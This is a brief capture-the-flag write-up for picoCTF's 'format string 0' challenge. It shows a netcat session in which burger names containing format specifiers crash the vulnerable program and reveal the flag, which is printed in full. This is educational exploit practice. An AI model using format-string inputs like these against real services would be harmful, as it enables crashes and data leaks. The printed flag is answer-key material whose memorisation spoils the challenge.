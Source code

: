 # format string 0:Binary Exploitation:50pts
Can you use your knowledge of format strings to make the customers happy?  
Download the binary [here](format-string-0).  
Download the source [here](format-string-0.c).  
Connect with the challenge instance here:  
`nc mimas.picoctf.net 50698`  

Hints  
1  
This is an introduction of format string vulnerabilities. Look up "format specifiers" if you have never seen them before.  
2  
Just try out the different options  

# Solution
The binary, source and destination are passed.  
```bash
$ nc mimas.picoctf.net 50698
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
When I selected a hamburger with FSB, the flag was displayed.
## picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}